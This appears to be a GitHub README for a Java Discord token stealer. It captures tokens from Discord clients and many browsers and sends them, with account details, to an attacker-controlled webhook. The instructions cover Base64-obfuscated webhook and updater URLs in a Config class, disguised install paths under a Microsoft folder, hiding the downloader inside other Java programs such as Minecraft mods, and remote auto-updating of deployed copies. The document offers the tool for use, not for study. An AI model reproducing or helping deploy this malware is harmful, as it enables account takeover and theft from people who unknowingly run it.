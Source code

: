 Simple Discord token logging utility written in Java. Supports both [Clients](#client-support-list) and [Browsers](#browser-support-list).
## Features
- Capture tokens saved by Discord clients and browsers in LevelDB files
- Retrieve user information using said tokens and seamlessly send it to a designated webhook in an easily customizable embed format with placeholders
- Deployment through a lightweight downloader that operates independently of external dependencies
- Enhance and adapt the application's functionality as needed through auto-update capabilities
## Dependencies
- Java 8
- [Jackson](https://github.com/FasterXML/jackson)
- [JNA](https://github.com/java-native-access/jna)
- [OkHttp](https://github.com/square/okhttp)
## Usage
1. Host three empty files on GitHub similar to [/examples/](../blob/master/examples/). Any other service works too, as long as the URL of each hosted file remains the same after updating them.
2. Encode the URLs of your Discord webhook, the Updater JAR and the Version Info file in Base64.
    ```
   https://discord.com/api/webhooks/...    >>>   aHR0cHM6Ly9kaXNjb3JkLmNvbS9hcGkvd2ViaG9va3MvZXhhbXBsZQ==
   https://github.com/.../Updater.jar      >>>   aHR0cHM6Ly9naXRodWIuY29tLzB4NWQwL0Rpc2NvcmQtVG9rZW4tTG9nZ2VyL3Jhdy9tYXN0ZXIvZXhhbXBsZXMvVXBkYXRlci5qYXI=
   https://github.com/.../Version%20Info   >>>   aHR0cHM6Ly9naXRodWIuY29tLzB4NWQwL0Rpc2NvcmQtVG9rZW4tTG9nZ2VyL3Jhdy9tYXN0ZXIvZXhhbXBsZXMvVmVyc2lvbiUyMEluZm8=
   ```
3. Update the **Config** class accordingly:
    ```java
    public static final String WEBHOOK_URL      = decode("aHR0cHM6Ly9kaXNjb3JkLmNvbS9hcGkvd2ViaG9va3MvZXhhbXBsZQ==");
    public static final String VERSION_INFO_URL = decode("aHR0cHM6Ly9naXRodWIuY29tLzB4NWQwL0Rpc2NvcmQtVG9rZW4tTG9nZ2VyL3Jhdy9tYXN0ZXIvZXhhbXBsZXMvVXBkYXRlci5qYXI=");
    public static final String UPDATER_JAR_URL  = decode("aHR0cHM6Ly9naXRodWIuY29tLzB4NWQwL0Rpc2NvcmQtVG9rZW4tTG9nZ2VyL3Jhdy9tYXN0ZXIvZXhhbXBsZXMvVmVyc2lvbiUyMEluZm8=");
    ```
4. *(Optional)* Adjust the download paths for the Updater, the Application and the version number respectively in the **Config** class:
    ```java
    public static final String UPDATER_SAVE_PATH = System.getenv("LOCALAPPDATA") + "\\Microsoft\\ExampleUpdater.jar";
    public static final String APP_SAVE_PATH     = System.getenv("LOCALAPPDATA") + "\\Microsoft\\Example.jar";
    public static final int    VERSION_NUMBER    = 1;
    ```
5. Build the **Application**(`gradle applicationJar`) and the **Updater** (`gradle updaterJar`)
6. Update your hosted files with the newly built JARs and edit the Version Info similarly to [/examples/Version Info](../blob/master/examples/Version%20Info), making sure the value of "version" matches the VERSION_NUMBER specified earlier:
    ```json
    {
    "version":1,
    "link":"https://github.com/0x5d0/Discord-Token-Logger/raw/master/examples/Application.jar"
    }
    ```
7. Implement the Downloader source in your preferred Java application (such as a Minecraft mod) and build it.
8. Run the standalone Downloader or the Java application with the integrated downloader, your Discord token and related user information will be automatically sent to your webhook.
## Auto-Update
- ### Application
  To distribute updates to all instances of your application, you must first locate and update the version number in the **Config** class to a higher value than the current one.This version number will help identify whether an update is available. You can then make the necessary changes to your main application and build it. Finally, host the new version and update the version information file to reflect these changes. This file serves as a reference for your application to determine whether an update is needed.

  *Be cautious when updating the version number. If the version number specified in the UpdateHelper class is smaller than the one in the version information file, the Application and Updater will enter a loop of downloading and deleting each other continuously. Make sure to keep the version numbers consistent to avoid this issue.*
- ### Updater
  To distribute new versions of the updater itself, simply build it with the necessary changes and replace the old file with it. The main application will download it the next time an update is needed.

  *If you cannot get the same URL for the updater as before, you will have to push a dummy update of the main application with a higher version number and the link to the new updater jar. In general, if you do not own a server, it would be good practice to host the files on GitHub and update them through that to retain the same URLs.*

### Supported Clients
- Discord
- Discord Canary
- Discord PTB

### Supported Browsers
- Brave Browser
- Epic Privacy Browser
- Falkon
- Google Chrome
- Google Chrome Beta
- Google Chrome Canary
- Google Chrome Dev
- Iridium
- Microsoft Edge
- Opera
- Opera Beta
- Opera Developer
- Opera GX
- (Ungoogled) Chromium
- Vivaldi
- Yandex